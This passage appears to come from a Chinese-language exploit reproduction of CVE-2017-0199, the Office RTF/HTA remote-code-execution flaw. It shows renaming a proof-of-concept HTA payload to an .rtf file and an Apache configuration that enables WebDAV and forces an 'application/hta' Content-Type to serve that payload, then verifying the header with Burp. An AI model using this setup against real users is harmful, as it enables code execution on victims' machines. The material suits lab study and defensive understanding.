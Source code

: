```
cp poc.hta test/1.rtf
vim /etc/apache2/apache2.conf
```

修改apache2的配置文件，增加2行配置（"Dav on" 在第一步的时候就可以配置，不影响；关键是Content-Type的设置）

```
<Directory />
        Options FollowSymLinks
        AllowOverride None
        Require all denied
        Dav on
</Directory>

<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
        Header set Content-Type "application/hta"
</Directory>
```

![Apache_config](img/CVE-2017-0199/Apache_config1.png)

修改为如上配置后重启apache2服务 `service apache2 restart`先通过burp抓包验证一下，必须保证Content-Type是application/hta。

![HTA_response](img/CVE-2017-0199/HTA_response.png)
